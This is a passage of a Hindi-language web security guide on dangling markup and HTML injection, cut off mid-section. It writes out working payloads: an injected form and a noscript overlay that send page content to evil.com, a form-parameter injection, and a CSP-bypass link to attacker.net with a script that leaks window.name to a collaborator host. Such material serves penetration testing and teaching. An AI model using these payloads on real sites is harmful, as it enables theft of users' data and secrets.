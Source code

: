 आप एक ही चीज़ को फ़ॉर्म और `<option>` टैग में इंजेक्ट करके ऐसा ही कर सकते हैं। एक बंद `</option>` मिलने तक सभी डेटा भेजा जाएगा:
```markup
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```
### फॉर्म पैरामीटर इंजेक्शन

आप एक फॉर्म के पथ को बदल सकते हैं और नए मान डाल सकते हैं ताकि एक अप्रत्याशित कार्रवाई की जाएगी:
```markup
<form action='/change_settings.php'>
<input type='hidden' name='invite_user'
value='fredmbogo'>                                        ← Injected lines

<form action="/change_settings.php">                        ← Existing form (ignored by the parser)
...
<input type="text" name="invite_user" value="">             ← Subverted field
...
<input type="hidden" name="xsrf_token" value="12345">
...
</form>
```
### नोस्क्रिप्ट के माध्यम से स्पष्ट पाठ रहस्यों की चोरी

`<noscript></noscript>` एक टैग है जिसकी सामग्री का अर्थानुसार इंटरप्रिटेशन होगा अगर ब्राउज़र जावास्क्रिप्ट का समर्थन नहीं करता है (आप [chrome://settings/content/javascript](chrome://settings/content/javascript) में क्रोम में जावास्क्रिप्ट को सक्षम/अक्षम कर सकते हैं)।

एक तरीका वेब पृष्ठ की सामग्री को अपराधी नियंत्रित साइट के नियंत्रण में इंजेक्शन के बिंदु से नीचे तक निकालने का होगा। इसके लिए निम्नलिखित को इंजेक्ट करें:
```markup
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```
### उपयोगकर्ता संवाद के साथ सीएसपी को बाईपास करना

[पोर्टस्विगर्स के अनुसंधान](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) से आप यह सीख सकते हैं कि **सबसे अधिक सीएसपी प्रतिबंधित** वातावरण से भी आप कुछ **उपयोगकर्ता संवाद** के साथ अभी भी **डेटा निर्यात** कर सकते हैं। इस अवसर में हम निम्नलिखित पेलोड का उपयोग करेंगे:
```markup
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```
नोट करें कि आप **पीड़ित** से एक **लिंक पर क्लिक करने** के लिए कहेंगे जो उसे आपके द्वारा नियंत्रित **पेलोड** पर **रीडायरेक्ट** करेगा। इसके अलावा ध्यान दें कि **`base`** टैग के भीतर **`target`** एट्रिब्यूट एकल कोट तक का **HTML सामग्री** शामिल होगा।
इससे यह होगा कि जब लिंक पर क्लिक किया जाता है तो **`window.name`** का **मान** वही सभी **HTML सामग्री** होगा। इसलिए, जैसा कि आप लिंक पर क्लिक करके पहुंच रहे पेज को **नियंत्रित करते हैं**, आप उस **`window.name`** तक पहुंच सकते हैं और उस डेटा को **अपहरण** कर सकते हैं:
```markup
<script>
if(window.name) {
new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```
### भ्रामक स्क्रिप्ट वर्कफ़्लो 1 - HTML नेमस्पेस हमला
